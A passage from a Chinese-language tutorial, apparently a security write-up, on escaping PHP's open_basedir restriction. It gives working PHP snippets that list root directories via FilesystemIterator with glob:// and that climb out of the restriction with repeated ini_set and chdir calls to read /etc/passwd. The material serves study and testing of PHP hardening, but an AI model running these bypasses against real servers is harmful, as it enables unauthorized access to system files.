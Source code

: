 利用两次`DirectoryIterator类 + glob://协议`可以直接读取根目录的内容

[![](assets/1708675446-7cb2bd055d7fe9767d1c33c8f83707ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121008-43e8ddc4-d138-1.png)

#### FilesystemIterator 类 + glob://协议

我们上面也了解到了 FilesystemIterator 类和 DirectoryIterator 类作用一样，只是显示不太一样

```bash
<?php
ini_get('open_basedir');
$dir_array = array();

$dir = new FilesystemIterator('glob:///*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

$dir = new FilesystemIterator('glob:///.*');
foreach($dir as $d){
    $dir_array[] = $d->__toString();
}

sort($dir_array);
foreach($dir_array as $d){
    echo $d.' ';
}
?>
```

[![](assets/1708675446-6ff128c79264eeba1abb5231a3565a19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121024-4dcdac84-d138-1.png)

### 文件读取

#### ini\_set() + 相对路径

由于 open\_basedir 自身的问题，设置为相对路径`..`在解析的时候会致使自身向上跳转一层

因此多设置几次 ini\_set() 就可以跳转到根目录

```bash
<?php
    show_source(__FILE__);
    ini_get('open_basedir');

    mkdir('test');
    chdir('test');
    ini_set('open_basedir','..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir','/');

    echo file_get_contents('/etc/passwd'); 

?>
```
